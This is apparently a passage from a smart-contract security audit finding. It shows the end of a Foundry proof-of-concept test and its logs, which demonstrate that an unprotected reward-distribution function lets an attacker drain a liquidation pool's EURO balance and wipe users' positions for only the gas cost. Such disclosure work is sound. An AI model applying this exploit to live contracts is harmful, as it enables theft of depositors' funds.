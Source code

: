 ```solidity
        console2.log("Positions after attack is performed");
        (, uint256 TSTAA, uint256 EUROsAA ) = liquidationPool.positions(alice);
        console2.log("Position of Alice: ", TSTAA/1e18, EUROsAA/1e18);
        (, uint256 TSTBA, uint256 EUROsBA ) = liquidationPool.positions(bob);
        console2.log("Position of Bob: ", TSTBA/1e18, EUROsBA/1e18);
        (, uint256 TSTJA, uint256 EUROsJA) = liquidationPool.positions(john);
        console2.log("Position of John: ", TSTJA/1e18, EUROsJA/1e18);
        console2.log("Liquidation Pool contract EURO balance: ", EURO.balanceOf(address(liquidationPool))/1e18);
        /// @notice the address and symbol of ETH, which have been faked to distribute rewards
        (bytes32 symbol, address addr, uint8 dec, address clAddr, uint8 clDec) = tokenManager.acceptedTokens(0);
        console2.log("Real ETH symbol saved in the tokenManager, and used for rewards distribution");
        console2.logBytes32(symbol);
        console2.log("The saved address of ETH in the tokenManager: ", addr);
        bytes memory johnRewards = abi.encodePacked(john, symbol);
        console2.log("John acumulated rewards in the real ETH symbol: ", liquidationPool.rewards(johnRewards));
        bytes memory johnFakeRewards = abi.encodePacked(john, bytes32(0));
        console2.log("John accumulated rewards in the fake ETH symbol: ", liquidationPool.rewards(johnFakeRewards));
        vm.stopPrank();
    }
```

```solidity
Logs:
  Positions before attack is performed
  Position of Alice:  1000 1066
  Position of Bob:  1000 1022
  Position of John:  1000 1000
  Liquidation Pool contract EURO balance:  3089

  Positions after attack is performed
  Position of Alice:  1000 100
  Position of Bob:  1000 55
  Position of John:  1000 33
  Liquidation Pool contract EURO balance:  189
  Real ETH symbol saved in the tokenManager, and used for rewards distribution
  0x4554480000000000000000000000000000000000000000000000000000000000
  The saved address of ETH in the tokenManager:  0x0000000000000000000000000000000000000000
  John acumulated rewards in the real ETH symbol:  0
  John accumulated rewards in the fake ETH symbol:  445962891551386865
```
As can be seen from the above logs, the attacker wiped out nearly all of the ``EURO`` in the contract, as well as the users positions, without providing any real rewards in return. Keep in mind that parameters can be fined tuned even more. The cost of the attack is only the gas paid by the attacker in order to execute the function call.

To run the test use: ``forge test -vvv --mt test_DistributeAssetsMissingAccessModifierWipeOutPositions``
